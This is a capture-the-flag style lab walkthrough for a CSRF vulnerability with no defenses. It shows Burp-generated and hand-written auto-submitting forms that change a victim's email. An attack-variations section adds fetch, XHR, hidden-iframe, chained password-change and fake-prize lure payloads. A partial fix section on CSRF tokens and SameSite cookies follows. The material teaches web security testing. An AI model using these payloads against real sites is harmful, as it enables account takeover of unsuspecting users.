

---

**Difficulty:** 🟢 Apprentice

**Goal:**

- 🔍 Identify CSRF vulnerability in email change functionality
- 🎯 Understand how CSRF attacks exploit trust relationships
- 💉 Craft malicious HTML form to trigger unauthorized email change
- 🚀 Use exploit server to deliver attack payload
- 🎪 Auto-submit form to execute attack without user interaction
- 🚨 Change victim's email address via CSRF
- 🎉 Complete lab successfully

---

## 🧠 **Concept Recap**

> **CSRF (Cross-Site Request Forgery)** is a web security vulnerability that allows an attacker to induce users to perform actions they do not intend to perform. The attacker crafts a malicious request and tricks an authenticated user into executing it, leveraging the user's session to perform unauthorized actions. Unlike XSS which attacks the user, CSRF attacks the web application's trust in the authenticated user.

### 📊 **The Vulnerability**

**Normal Email Update Functionality:**

```HTTP
Authenticated user changes email:
         ↓
User: wiener (logged in)
Session: Valid session cookie
         ↓
User visits: /my-account
         ↓
User fills form:
  New Email: newemail@example.com
         ↓
Clicks "Update email" button
         ↓
Browser sends POST request:
  POST /my-account/change-email
  Cookie: session=abc123xyz
  email=newemail@example.com
         ↓
Server validates session cookie ✓
Server updates email ✓
Email changed successfully! ✓
```

**CSRF Attack Flow:**

```HTTP
Attacker crafts malicious page
         ↓
Victim: wiener (logged in to vulnerable site)
         ↓
Victim visits attacker's page
  https://exploit-server.com/
         ↓
Attacker's page contains hidden form:
  <form method="POST" 
        action="https://vulnerable.com/my-account/change-email">
    <input type="hidden" name="email" value="attacker@evil.com">
  </form>
  <script>document.forms[0].submit();</script>
         ↓
Form auto-submits immediately!
         ↓
Browser sends POST request to vulnerable site:
  POST /my-account/change-email
  Cookie: session=abc123xyz  ← Victim's valid session!
  email=attacker@evil.com
         ↓
Server receives request
         ↓
Server checks session cookie ✓
Session valid? YES (victim is logged in)
         ↓
Server has NO way to verify:
  ❌ Did this request come from legitimate form?
  ❌ Did user actually intend to submit this?
  ❌ Is this from attacker's malicious site?
         ↓
Server trusts the request! 💣
         ↓
Email updated to attacker@evil.com! 💥
         ↓
Victim's email changed without consent! 🎯
```

**Key Insight:**

```
Why CSRF works - The Trust Problem:

1. Browser's Automatic Cookie Behavior:
   └── When browser makes ANY request to a domain
       └── Automatically includes ALL cookies for that domain
           └── Including session cookies!
               └── This happens even if request comes from different site! 💣

2. Server's Trust in Session Cookies:
   └── Server sees valid session cookie
       └── Assumes request is legitimate
           └── No verification of request origin
               └── Cannot distinguish forged from real requests! ⚠️

3. Same-Origin Policy Limitations:
   └── SOP prevents reading responses cross-origin
       └── But does NOT prevent sending requests!
           └── Attacker can't read response
               └── But damage is already done! 💥

4. Why "No Defenses" Makes It Worse:
   ├── No CSRF tokens to validate request authenticity
   ├── No SameSite cookies to restrict cross-site requests
   ├── No Referer header validation
   └── Server only checks: "Is user logged in?" ✓
       └── Not: "Did this come from my site?" ❌

The CSRF Attack Chain:
└── User authenticated on vulnerable site (has session cookie)
    └── User visits attacker's malicious page
        └── Malicious page submits form to vulnerable site
            └── Browser automatically includes session cookie
                └── Server validates session (user is logged in) ✓
                    └── Server processes request (no CSRF protection) ✓
                        └── Unauthorized action executed! 💣

Real-world impact:
├── Password changes
├── Email changes → Account takeover!
├── Money transfers
├── Purchase orders
├── Account deletions
└── Privilege escalations
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the lab page - it's an online shop
3. 📝 Note the provided credentials: `wiener:peter`

**Lab homepage:**

```
┌────────────────────────────────────┐
│ Shop Website                       │
├────────────────────────────────────┤
│ [My account] [Home]                │
│                                    │
│ Featured Products:                 │
│                                    │
│ ┌──────┐  ┌──────┐  ┌──────┐       │
│ │ Item │  │ Item │  │ Item │       │
│ │  1   │  │  2   │  │  3   │       │
│ └──────┘  └──────┘  └──────┘       │
│                                    │
└────────────────────────────────────┘
```

**Lab requirements:**

```
Goal: Change victim's email via CSRF
Requirements:
├── Craft HTML exploit
├── Upload to exploit server
├── Deliver to victim
└── Auto-submit without user interaction
```

---

### 🔐 **Step 2 — Login to Account**

1. 🖱️ Click **"My account"** in the top navigation
2. 📝 Enter credentials:
    - Username: `wiener`
    - Password: `peter`
3. 🚀 Click **"Login"**

**Login page:**

```
┌────────────────────────────────────┐
│ Login                              │
├────────────────────────────────────┤
│                                    │
│ Username: [wiener          ]       │
│ Password: [peter           ]       │
│                                    │
│           [Login]                  │
│                                    │
└────────────────────────────────────┘
```

---

### 👤 **Step 3 — Navigate to My Account Page**

**After successful login:**

```
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: wiener@normal-user.net      │
│                                    │
│ Update email:                      │
│ [____________________________]     │
│                                    │
│ [Update email]                     │
│                                    │
└────────────────────────────────────┘
```

**Key observations:**

```
✅ Email change form is present
✅ Only requires email parameter
✅ No additional security fields visible
💡 Need to analyze the request!
```

---

### 🔍 **Step 4 — Setup Burp Suite**

**If not already configured:**

1. 🌐 Open Burp Suite
2. ⚙️ Configure browser to use Burp proxy:
    - Proxy: `127.0.0.1`
    - Port: `8080`
3. 🔄 Turn on **Intercept** in Burp Suite

**Burp Suite Proxy tab:**

```
┌────────────────────────────────────┐
│ Burp Suite Professional            │
├────────────────────────────────────┤
│ Proxy │ Intruder │ Repeater │...   │
├────────────────────────────────────┤
│                                    │
│ Intercept: [ON]  [Forward]  [Drop] │
│                                    │
│ HTTP history │ WebSockets history  │
│                                    │
└────────────────────────────────────┘
```

---

### 📨 **Step 5 — Capture Email Change Request**

1. 🔄 Make sure Burp **Intercept is ON**
2. 🌐 Go back to My Account page
3. ✏️ Enter a test email in the form:
    

```
test@example.com
```

    
4. 🚀 Click **"Update email"**
5. 👀 Burp will intercept the request

**Intercepted request in Burp:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0a4f00bd03e24abdc03e227d00550031.web-security-academy.net
Cookie: session=gPz3mLGz8VYwPqvEWzOt3kLLm3p4ZP0q
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)...
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

email=test%40example.com
```

**Analyzing the request:**

```HTTP
Critical elements:

1. Method: POST
   └── Email change uses POST request

2. Endpoint: /my-account/change-email
   └── This is the target for our CSRF attack

3. Cookie: session=gPz3mLGz8VYwPqvEWzOt3kLLm3p4ZP0q
   └── Session cookie for authentication
   └── Browser sends this automatically! 💣

4. Body: email=test%40example.com
   └── Single parameter: email
   └── No CSRF token! ❌
   └── No additional validation! ❌

What's MISSING (No Defenses):
❌ No CSRF token parameter
❌ No anti-CSRF header
❌ No custom request header
❌ No origin validation
❌ No referer validation
❌ No SameSite cookie restrictions

What's PRESENT:
✓ Only session cookie for auth
✓ Simple email parameter
✓ Standard POST request

Vulnerability confirmed! 💥
```

---

### 🔄 **Step 6 — Forward Request in Burp**

1. 📨 Click **"Forward"** in Burp to complete the request
2. 🔄 Turn **Intercept OFF**
3. 📋 Go to **"HTTP history"** tab in Burp
4. 🔍 Find the email change request

**HTTP History in Burp:**

```
┌────────────────────────────────────────────────────────┐
│ # │ Host                     │ Method │ URL            │
├───┼──────────────────────────┼────────┼────────────────┤
│ 1 │ 0a4f...academy.net       │ GET    │ /              │
│ 2 │ 0a4f...academy.net       │ GET    │ /login         │
│ 3 │ 0a4f...academy.net       │ POST   │ /login         │
│ 4 │ 0a4f...academy.net       │ GET    │ /my-account    │
│ 5 │ 0a4f...academy.net       │ POST   │ /my-account/   │ ← This one!
│   │                          │        │ change-email   │
└───┴──────────────────────────┴────────┴────────────────┘
```

5. 🖱️ **Right-click** on the email change request

---

### 🎨 **Step 7 — Generate CSRF PoC (Burp Professional)**

**If using Burp Suite Professional:**

1. 🖱️ Right-click on the email change request
2. 📋 Select: **Engagement tools → Generate CSRF PoC**

**CSRF PoC Generator window:**

```
┌────────────────────────────────────┐
│ CSRF PoC Generator                 │
├────────────────────────────────────┤
│                                    │
│ Options:                           │
│ ☑ Include auto-submit script       │
│ ☐ URL-encode data                  │
│                                    │
│ [Regenerate] [Test in browser]     │
│ [Copy HTML]                        │
│                                    │
│ HTML Preview:                      │
│ ┌────────────────────────────────┐ │
│ │ <html>                         │ │
│ │   <body>                       │ │
│ │     <form action="..." ...>    │ │
│ │     ...                        │ │
│ │     </form>                    │ │
│ │   </body>                      │ │
│ └────────────────────────────────┘ │
└────────────────────────────────────┘
```

3. ✅ **Check** the option: **"Include auto-submit script"**
4. 🔄 Click **"Regenerate"**
5. 📋 Click **"Copy HTML"**

**Generated HTML:**

```html
<html>
  <body>
    <form action="https://0a4f00bd03e24abdc03e227d00550031.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test@example.com" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Skip to Step 9 if using Burp Pro!**

---

### ✍️ **Step 8 — Manual HTML Creation (Burp Community Edition)**

**If using Burp Community Edition, create HTML manually:**

1. 📋 Copy the request URL from Burp:
    
    - Right-click on request → **"Copy URL"**
2. ✏️ Create the HTML exploit:
    

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

**Replace YOUR-LAB-ID with your actual lab ID!**

**Understanding the HTML exploit:**

```html
<form method="POST" 
      action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    
    Breaking down the form tag:
    ├── method="POST" → Matches original request method
    ├── action="..." → Full URL to email change endpoint
    └── When submitted, browser sends POST to this URL
        └── Automatically includes victim's session cookie! 💣

    <input type="hidden" name="email" value="attacker@evil.com">
    
    Hidden input field:
    ├── type="hidden" → Not visible to user
    ├── name="email" → Parameter name (from original request)
    └── value="attacker@evil.com" → Attacker's email
        └── This will be the new email! 🎯

</form>

<script>
    document.forms[0].submit();
</script>

Auto-submit script:
├── document.forms[0] → Selects first form on page
├── .submit() → Automatically submits the form
└── Executes immediately when page loads!
    └── No user interaction required! 💥

The complete attack flow:
1. Victim visits attacker's page
   └── Page loads, HTML rendered

2. Form element created in DOM
   └── Target: vulnerable email change endpoint
   └── Data: attacker's email address

3. Script executes automatically
   └── Finds form element
   └── Calls submit() method

4. Browser submits form
   └── Sends POST request to vulnerable site
   └── Automatically includes session cookie
   └── Server trusts the request
   └── Email changed! 💣
```

---

### 🌐 **Step 9 — Access Exploit Server**

1. 🔙 Go back to the lab page
2. 🖱️ Look for **"Go to exploit server"** button at the top
3. 🚀 Click the button

**Exploit server location:**

```
Lab page URL:
https://0a4f00bd03e24abdc03e227d00550031.web-security-academy.net/

Exploit server URL:
https://exploit-0af0001203174a46c0f22153019900f4.exploit-server.net/
      ↑
   Different subdomain - this is YOUR attack server!
```

**Exploit server interface:**

```
┌────────────────────────────────────────────────────────┐
│ Exploit Server                                         │
├────────────────────────────────────────────────────────┤
│                                                        │
│ Response headers:                                      │
│ HTTP/1.1 200 OK                                        │
│ Content-Type: text/html; charset=utf-8                 │
│ [______________________________________]               │
│                                                        │
│ Body:                                                  │
│ [______________________________________]               │
│ [______________________________________]               │
│ [______________________________________]               │
│ [______________________________________]               │
│                                                        │
│ [Store] [View exploit] [Deliver exploit to victim]     │
│                                                        │
└────────────────────────────────────────────────────────┘
```

---

### 📝 **Step 10 — Paste Exploit HTML**

1. 📋 Paste your CSRF HTML into the **"Body"** field
2. 💾 Click **"Store"** to save the exploit

**Example HTML in Body field:**

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a9c00b504c997a7880125db008200e0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

**Important notes:**

```
⚠️ Testing consideration:
   └── Lab hint says: "You cannot register an email address 
       that is already taken by another user."
   
   └── If you test with your own email first
       └── You'll change wiener's email
           └── When you deliver to victim, it will fail!
               └── Because that email is now taken!

💡 Solution:
   └── Use one email for testing (e.g., test1@test.com)
       └── Use DIFFERENT email for final exploit
           └── That way victim can use a new email
               └── (e.g., test2@test.com, hacker@evil.com)

Best practice:
├── Test exploit first with test1@test.com
├── Verify it works on yourself
├── Then change to test2@test.com or similar
└── Deliver to victim with new unused email
```

---

### 🧪 **Step 11 — Test Exploit**

1. 👁️ Click **"View exploit"** button
2. 👀 New tab opens with your exploit page

**What happens:**

```HTML
Exploit page loads in new tab
         ↓
HTML is parsed and rendered
         ↓
Form element created:
  <form method="POST" action="...change-email">
    <input type="hidden" name="email" value="test123@test.com">
  </form>
         ↓
JavaScript executes:
  <script>document.forms[0].submit();</script>
         ↓
Form auto-submits immediately!
         ↓
Browser sends POST request:
  POST /my-account/change-email
  Cookie: session=gPz3mLGz8VYwPqvEWzOt3kLLm3p4ZP0q
  
  email=test123@test.com
         ↓
You're redirected to My Account page
         ↓
Email updated to: test123@test.com ✓
```

**Verification:**

```
After form submits, you should see:
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: test123@test.com ← Changed! │
│                                    │
│ Update email:                      │
│ [____________________________]     │
│                                    │
└────────────────────────────────────┘
```

**Success confirmation:**

```
✅ Page redirected to /my-account
✅ Email changed to test value
✅ No errors occurred
✅ CSRF attack works!

💡 Now need to use different email for victim!
```

---

### 🔄 **Step 12 — Update Exploit for Victim**

1. 🔙 Go back to exploit server
2. ✏️ Change the email value in your HTML
3. 💾 Click **"Store"** again

**Updated HTML:**

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a9c00b504c997a7880125db008200e0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test123&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

**Why change the email:**

```
Problem:
└── If we already changed wiener's email to test123@test.com
    └── That email is now "taken"
        └── Cannot use same email again!
            └── Lab will fail validation

Solution:
└── Use a different, unused email address
    └── Examples:
        ├── hacker@evil.com
        ├── attacker@pwned.com
        ├── test999@test.com
        └── anything-unique@anything.com

The victim (simulated user) will use this new email ✓
```

---

### 🎯 **Step 13 — Deliver Exploit to Victim**

1. 🚀 Click **"Deliver exploit to victim"** button
2. ⏳ Wait for confirmation message

**What happens behind the scenes:**

```HTTP
Lab simulation sequence:

1. Button clicked: "Deliver exploit to victim"
   └── Lab starts automated victim simulation

2. Simulated victim (Carlos) visits your exploit URL
   └── https://exploit-0af0001203174a46c0f22153019900f4.exploit-server.net/
   └── Victim is logged in to vulnerable site
   └── Has valid session cookie for vulnerable site

3. Exploit page loads in victim's browser
   └── HTML rendered
   └── Form created with action pointing to vulnerable site

4. Auto-submit script executes
   └── document.forms[0].submit() runs immediately
   └── No user interaction required!

5. Victim's browser sends forged request:
   POST /my-account/change-email HTTP/2
   Host: 0a4f00bd03e24abdc03e227d00550031.web-security-academy.net
   Cookie: session=VICTIM_SESSION_COOKIE_HERE
   
   email=hacker@evil.com
         ↓
   Browser automatically includes victim's session cookie! 💣

6. Vulnerable server receives request:
   └── Checks session cookie: Valid ✓
   └── User is authenticated ✓
   └── No CSRF token check (no defense!) ❌
   └── No origin validation ❌
   └── No referer validation ❌
   └── Trusts the request completely! ⚠️

7. Server processes email change:
   └── UPDATE users SET email='hacker@evil.com' WHERE session='...'
   └── Email changed successfully! 💥

8. Lab validates success:
   └── Checks if victim's email was changed
   └── Verifies it matches your payload
   └── Lab solved! 🎉
```

---

### ✅ **Step 14 — Lab Completion**

**Success banner appears:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully exploited a       │
│  CSRF vulnerability to change       │
│  the victim's email address.        │
│                                     │
│  Lab: CSRF vulnerability with       │
│       no defenses                   │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

**What you accomplished:**

```
Attack summary:
├── Identified vulnerable email change functionality
├── Analyzed request structure (POST with email parameter)
├── Confirmed no CSRF protections present
├── Crafted malicious HTML with auto-submit form
├── Uploaded exploit to attacker-controlled server
├── Delivered exploit to victim
└── Successfully changed victim's email via CSRF! 💥

Real-world impact:
└── Email change = Account takeover potential!
    ├── Attacker requests password reset
    ├── Reset link sent to attacker's email
    ├── Attacker gains full account access
    └── Complete compromise! 💣
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab and login
         → Credentials: wiener:peter
         ↓
Step 2: Navigate to My Account page
         → Observe email change functionality
         ↓
Step 3: Setup Burp Suite
         → Configure proxy to intercept traffic
         ↓
Step 4: Capture email change request
         → Submit test email, intercept in Burp
         ↓
Step 5: Analyze request structure
         → POST /my-account/change-email
         → Cookie: session=...
         → email=test@example.com
         ↓
Step 6: Identify vulnerability
         → No CSRF token ❌
         → No additional validation ❌
         → Only session cookie for auth ✓
         ↓
Step 7: Generate CSRF PoC
         → Method 1: Burp Pro - Generate CSRF PoC
         → Method 2: Manual HTML creation
         ↓
Step 8: Create HTML exploit
         → Form with hidden email field
         → Auto-submit JavaScript
         → Targets vulnerable endpoint
         ↓
Step 9: Upload to exploit server
         → Access exploit server
         → Paste HTML in Body field
         → Store exploit
         ↓
Step 10: Test exploit on yourself
         → View exploit → Form auto-submits
         → Email changed successfully ✓
         ↓
Step 11: Update email for victim
         → Change to different unused email
         → Store updated exploit
         ↓
Step 12: Deliver to victim
         → Click "Deliver exploit to victim"
         → Simulated victim visits exploit page
         → Form auto-submits with victim's session
         → Victim's email changed! 💥
         ↓
Step 13: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **What is CSRF?**

```r
Cross-Site Request Forgery (CSRF):

Definition:
└── Attack that forces authenticated user to execute 
    unwanted actions on web application in which they're 
    currently authenticated

How it works:
└── Attacker tricks victim into submitting malicious request
    ├── Victim is logged in to vulnerable site
    ├── Victim visits attacker's malicious page
    ├── Malicious page sends forged request to vulnerable site
    └── Browser automatically includes victim's session cookie
        └── Server trusts request because session is valid! 💣

Key characteristics:
├── Exploits trust relationship between user and website
├── Leverages automatic cookie inclusion by browsers
├── Requires victim to be authenticated
├── Can execute any action victim is authorized to perform
└── Victim doesn't see or consent to the action

Difference from XSS:
├── XSS: Injects malicious code into trusted site
│   └── Attacks the USER (steals data, sessions)
│
└── CSRF: Injects trusted user into malicious requests
    └── Attacks the APPLICATION (unauthorized actions)

The core problem:
└── Server cannot distinguish:
    ├── Legitimate request from user's browser
    └── Forged request from attacker's site
        └── Both include valid session cookie!
            └── Browser sends cookies automatically! ⚠️
```

---

### **Browser Cookie Behavior**

```r
How browsers handle cookies:

Automatic inclusion:
└── When browser makes request to example.com
    └── Automatically includes ALL cookies for example.com
        └── Including session cookies
            └── Regardless of which page initiated the request!

Example:
User visits: evil.com
evil.com contains: <form action="https://bank.com/transfer">

When form submits:
├── Browser sends POST to bank.com
├── Browser automatically includes bank.com cookies
│   └── session=abc123 (victim's valid session)
├── bank.com server receives request with valid session
└── Server trusts it! 💣

This is the root cause of CSRF vulnerability!

Same-Origin Policy limitations:
├── SOP prevents reading responses across origins
│   └── evil.com can't read response from bank.com
│
└── But SOP does NOT prevent sending requests!
    └── evil.com CAN send requests to bank.com
        └── And browser includes cookies automatically!
            └── Damage happens before response! 💥
```

---

### **Why No Defenses is Critical**

```r
Vulnerable application characteristics:

1. No CSRF Token:
   └── No unique, unpredictable value required
       └── Attacker can craft valid request without secret! ❌

2. No Custom Headers:
   └── No X-Custom-Header required
       └── Simple HTML form is sufficient! ❌

3. No SameSite Cookies:
   └── Cookie sent in cross-site requests
       └── Browser includes session in attacker's request! ❌

4. No Referer Validation:
   └── Server doesn't check request origin
       └── Accepts requests from any domain! ❌

5. Only Session Cookie:
   └── Server only checks: "Is user logged in?"
       └── Doesn't ask: "Did this come from my site?"
           └── Cannot detect forged requests! ⚠️

The result:
└── Server has NO way to distinguish:
    ├── Real request from legitimate user action
    └── Forged request from attacker's malicious page
        └── Both look identical to server! 💣

Perfect conditions for CSRF:
✓ Relies only on session cookie
✓ No CSRF token validation
✓ No origin verification
✓ Accepts cross-site requests
└── Complete CSRF vulnerability! 💥
```

---

### **The HTML Form Attack**

```html
Understanding the exploit HTML:

<form method="POST" action="https://vulnerable.com/my-account/change-email">
    <input type="hidden" name="email" value="attacker@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>

Component breakdown:

1. <form method="POST" ...>
   └── Creates HTML form element
       └── method="POST" matches original request
           └── Server expects POST for email changes

2. action="https://vulnerable.com/my-account/change-email"
   └── Full URL to vulnerable endpoint
       └── Form submits to this URL
           └── Cross-origin request to vulnerable site!

3. <input type="hidden" name="email" value="attacker@evil.com">
   └── Form data parameter
       ├── type="hidden" → Not visible to user
       ├── name="email" → Matches expected parameter name
       └── value="..." → Attacker's chosen email
           └── This becomes the request body!

4. <script>document.forms[0].submit();</script>
   └── JavaScript auto-submit
       ├── document.forms[0] → First form on page
       ├── .submit() → Programmatically submit form
       └── Executes when page loads
           └── No user interaction needed! 💥

When page loads:
├── Step 1: Browser parses HTML
│   └── Form element created in DOM
│
├── Step 2: Script executes
│   └── Calls form.submit()
│
├── Step 3: Browser submits form
│   ├── POST to https://vulnerable.com/my-account/change-email
│   ├── Body: email=attacker@evil.com
│   └── Cookie: session=VICTIM_SESSION (automatic!)
│       └── Browser includes cookie automatically! 💣
│
└── Step 4: Server processes request
    ├── Session valid? ✓
    ├── CSRF token? ❌ (not required)
    └── Email changed! 💥

Why this works:
└── Form submission is a standard browser feature
    └── Not blocked by Same-Origin Policy
        └── Browser allows cross-origin form submissions
            └── And includes cookies automatically!
                └── Server trusts the session cookie! ⚠️
```

---

### **Attack Prerequisites**

```
For successful CSRF attack:

1. Victim must be authenticated:
   └── Has valid session cookie for vulnerable site
       └── Cookie stored in browser
           └── Will be sent automatically
               └── No authentication = no attack! ⚠️

2. Attacker must know request structure:
   ├── HTTP method (GET, POST)
   ├── Endpoint URL (/my-account/change-email)
   ├── Parameter names (email)
   └── Expected format
       └── Usually discoverable by using the site normally

3. No unpredictable parameters:
   └── If request requires CSRF token
       └── Attacker cannot predict token value
           └── Attack fails! ❌
   └── This lab has NO unpredictable parameters ✓

4. Victim must visit attacker's page:
   └── Social engineering required:
       ├── Malicious email link
       ├── Compromised website
       ├── Malicious ad
       └── Any way to get victim to load attacker's page

5. Action must be worth attacking:
   └── Password change → Account takeover
   ├── Email change → Account takeover
   ├── Money transfer → Financial loss
   ├── Permission change → Privilege escalation
   └── Must be valuable to attacker!

Common attack scenarios:
├── Victim logs in to bank.com
├── Victim checks email
├── Email contains link to attacker.com
├── Victim clicks link
├── attacker.com loads with CSRF exploit
├── Form auto-submits to bank.com/transfer
├── Browser includes bank.com session cookie
└── Money transferred! 💣

Time window consideration:
└── Attack works as long as:
    └── Victim's session is valid
        └── Typically 15-60 minutes
            └── Or until user logs out
                └── Narrow window for attack!
```

---

## 🚀 **Attack Variations**

### **Variation 1: Using GET Request**

**If endpoint accepts GET instead of POST:**

```html
<!-- Simple image tag CSRF -->


How it works:
└── Browser tries to load image
    └── Sends GET request to src URL
        └── Includes cookies automatically!
            └── Email changed! 💥

Even simpler:
└── No form needed
└── No JavaScript needed
└── Just an image tag!

Why this is worse:
├── Can be embedded anywhere
│   ├── Email (HTML email)
│   ├── Forum posts
│   └── Chat messages
└── Completely invisible to user!

That's why POST is preferred for state-changing operations!
```

---

### **Variation 2: Fetch API CSRF**

**Modern JavaScript approach:**

```html
<script>
fetch('https://vulnerable.com/my-account/change-email', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
    },
    credentials: 'include',  // Includes cookies!
    body: 'email=attacker@evil.com'
});
</script>
```

**Why this might fail:**

```
CORS (Cross-Origin Resource Sharing):
└── Browser blocks reading response
    └── But request is still sent!
        └── Damage done before block! ⚠️

However:
└── Fetch requires credentials: 'include'
    └── Otherwise cookies not sent
        └── More explicit than form submission

Note:
└── Custom headers trigger CORS preflight
    └── May be blocked by server
        └── Form-based attacks more reliable!
```

---

### **Variation 3: Multiple Actions**

**Chaining multiple CSRF attacks:**

```html
<form id="form1" method="POST" action="https://vulnerable.com/my-account/change-email">
    <input type="hidden" name="email" value="attacker@evil.com">
</form>

<form id="form2" method="POST" action="https://vulnerable.com/my-account/change-password">
    <input type="hidden" name="password" value="Hacked123!">
</form>

<script>
// Submit forms with delay
document.getElementById('form1').submit();
setTimeout(function() {
    document.getElementById('form2').submit();
}, 1000);  // Wait 1 second between submissions
</script>

Attack sequence:
1. Change email to attacker@evil.com
2. Wait 1 second
3. Change password to Hacked123!
4. Complete account takeover! 💣
```

---

### **Variation 4: Invisible iFrame**

**Hiding the attack completely:**

```html
<iframe style="display:none" name="csrf-frame"></iframe>

<form method="POST" 
      action="https://vulnerable.com/my-account/change-email"
      target="csrf-frame">
    <input type="hidden" name="email" value="attacker@evil.com">
</form>

<script>
document.forms[0].submit();
</script>

Benefits:
├── iFrame hidden (display:none)
├── Form submits into hidden iframe
├── No page redirect visible to user
├── User stays on attacker's page
└── Completely stealthy! 👻

User experience:
└── Visits attacker's page
    └── Sees normal content
        └── No indication of attack
            └── Email changed in background! 💥
```

---

### **Variation 5: Social Engineering Enhancement**

**Making victim more likely to click:**

```html
<!DOCTYPE html>
<html>
<head>
    <title>You've Won a Prize!</title>
</head>
<body>
    <h1>Congratulations! Click to claim your $1000 prize!</h1>
    <button onclick="claimPrize()">Claim Prize Now!</button>
    
    <form id="csrf" method="POST" 
          action="https://vulnerable.com/my-account/change-email"
          style="display:none;">
        <input type="hidden" name="email" value="attacker@evil.com">
    </form>
    
    <script>
    function claimPrize() {
        document.getElementById('csrf').submit();
        alert('Prize claimed! Check your email.');
    }
    </script>
</body>
</html>

Attack enhancement:
├── Looks like legitimate prize page
├── User clicks button willingly
├── CSRF executes on click
└── Higher success rate! 📈
```

---

### **Variation 6: XMLHttpRequest CSRF**

**Using XHR instead of form:**

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://vulnerable.com/my-account/change-email', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials = true;  // Include cookies
xhr.send('email=attacker@evil.com');
</script>

Considerations:
├── More control than form submission
├── Can handle responses programmatically
└── May trigger CORS preflight check
    └── Could be blocked by server ❌
    
Form submission is more reliable for CSRF! ✓
```

---

### **Variation 7: JSON-based CSRF**

**If endpoint accepts JSON:**

```html
<script>
fetch('https://vulnerable.com/api/change-email', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
    },
    credentials: 'include',
    body: JSON.stringify({
        email: 'attacker@evil.com'
    })
});
</script>

Common defense:
└── Custom Content-Type triggers CORS preflight
    └── Server may require custom header
        └── Cannot be done with simple form
            └── Harder to exploit! ⚠️

Why forms with application/x-www-form-urlencoded are worse:
└── No CORS preflight required
    └── Simple request
        └── No protection from CORS!
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Implement CSRF Tokens**

```r
<!-- ✅ SECURE - Use CSRF tokens -->

<!-- Server generates unique token per session -->
<form method="POST" action="/my-account/change-email">
    <input type="hidden" name="csrf_token" value="a3f8k2j9d1s4h7g6">
    <input type="email" name="email" placeholder="New email">
    <button type="submit">Update Email</button>
</form>

Server-side validation (PHP example):
<?php
session_start();

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Verify CSRF token
    if (!isset($_POST['csrf_token']) || 
        $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
        die('CSRF token validation failed!');
    }
    
    // Token valid, proceed with email change
    $email = $_POST['email'];
    // Update email in database...
}
?>

Benefits:
✅ Attacker cannot predict token value
✅ Token tied to user's session
✅ Must match server-side stored token
✅ Forged requests lack valid token
✅ Server rejects invalid tokens

Best practices for CSRF tokens:
├── Generate cryptographically random tokens
├── Tie token to user session
├── Include token in all state-changing requests
├── Validate token on server-side
├── Use different token per session
└── Regenerate token after authentication
```

---

### **Fix 2: SameSite Cookie Attribute**

```r
# ✅ SECURE - Use SameSite cookies

# Server sets cookie with SameSite attribute:
Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly

